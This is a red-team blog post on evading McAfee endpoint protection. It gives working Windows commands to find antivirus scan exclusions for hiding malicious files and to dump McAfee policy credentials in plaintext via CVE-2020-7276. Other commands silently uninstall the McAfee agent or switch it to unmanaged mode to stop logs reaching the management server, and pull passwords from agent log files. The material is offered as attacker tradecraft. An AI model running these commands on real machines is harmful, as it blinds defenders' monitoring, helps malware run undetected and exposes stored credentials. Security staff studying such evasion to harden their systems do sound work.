

# McAfee Products

Before I go on I want to briefly review how McAfee works for anyone who hasn't encountered it before. McAfee has various independent products that can be purchased by enterprises. Enterprises will purchase different products depending on their needs. Some of Mcafee's products you may encounter are:

* McAfee Web Gateway
* McAfee Endpoint Encryption
* McAfee Endpoint Security
* McAfee EndPoint Security Web Control
* McAfee VirusScan Enterprise
* McAfee Host Intrusion Prevention (HIP)
* McAfee Data Loss Prevention (DLP)

The full list of McAfee products is available <a href="https://www.mcafee.com/enterprise/en-us/products.html">here"</a>.

# Method 1 - Folder & File Exclusions

## On-Access Scan Exclusions

On-Access Scan (OAS) is the process of scanning files as they are accessed by users of the system. If you place your malicious file in an excluded folder then you can run it without worrying about McAfee stopping you. You can also abuse file exclusions, simply rename your malicious file to the excluded file name.

Query the following registry keys and check the file & folder names under the 'exclusion' value.

    #OAS Exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_DEFAULT /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_HIGH /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_LOW /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_DEFAULT /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_HIGH /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_LOW /v exclusions

    #Email attachment OAS Exclusions:
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_EMAIL_ATTACHMENTS /v exclusions

If for some reason you weren't able to find anything, they're also available as a file format in the following paths:

    C:\ProgramData\McAfee\Endpoint Security\McAfeeSettingsBackup\*.xml
    C:\ProgramData\McAfee\Endpoint Security\McAfeeSettingsBackup\*.reg

## On-Demand Scans

The aforementioned technique only covers On-Access Scan and therefore if the machine is scanned with an On-Demand Scan (ODS) then your files may be detected and removed. If you want the exclusions list for ODS check the following registry key.

    
    reg query HKLM\SOFTWARE\McAfee\AVSolution\ODS\541* /v exclusions

\* 541 may be a different number on your target machine 

# Method 2 - Disabled AMSI

By default, AMSI is set to <a href="https://www.mcafee.com/blogs/other-blogs/mcafee-labs/mcafee-amsi-integration-protects-against-malicious-scripts/">observe mode</a> which means if the invoked PowerShell commands or scripts are detected as being malicious, they won't be blocked. Of course as part of the red team, this music to my ears. Do note though that the detection event is logged.

# Method 3 - Dump Policy Settings (CVE-2020-7276)

I ran into this completely by accident and after searching online I realized this is probably <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7276">CVE-2020-7276</a>. Basically if you have administrator privileges you can access policy settings which contains sensitive data such as usernames and passwords.

    cd "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\Upgrade"
    MfeUpgradeTool.exe /export out.txt /plaintext

# Method 4 - Uninstalling McAfee Products

In some cases you can avoid McAfee by simply uninstalling their products. Every McAfee product has its own registry key with an <i>Uninstall Command</i> value. The product registry keys can be found can be in either one of the following parent keys:

    HKLM\SOFTWARE\WOW6432Node\Network Associates\ePolicy Orchestrator\Application Plugins
    Or
    HKLM\Software\Wow6432Node\McAfee\ePolicy Orchestrator\Application Plugins

If you use this method make sure you uninstall the McAfee agent after you have attempted uninstalling everything else.

The McAfee Agent is responsible for various tasks such as sending security logs to the centralized security management server known as ePO. To prevent the agent from sending logs to the server you can uninstall it. If tamper protection is enabled then this will fail, in that case you can try to switch the agent to 'unmanaged mode' which will also stop the machine from sending logs.

    #Remove Agent
    cd c:\Program Files\McAfee\Agent\x86
    FrmInst.exe /FORCEUNINSTALL /SILENT

    #Switch to unmanaged mode
    cd c:\Program Files\McAfee\Agent\x86
    FrmInst.exe /remove=agent /SILENT

# Method 5 - Credentials In Log Files

After using FrmInst.exe to uninstall the agent, logs are generated that contain sitelist.xml which has usernames, encrypted passwords, share names and server names.

    cd C:\Users\mrd0x\AppData\Local\Temp\McAfeeLogs
    findstr /i password * > enum.txt
    findstr /i <Domain name> * > enum2.txt

The encrypted passwords can be decrypted easily using <a href="">this tool</a> 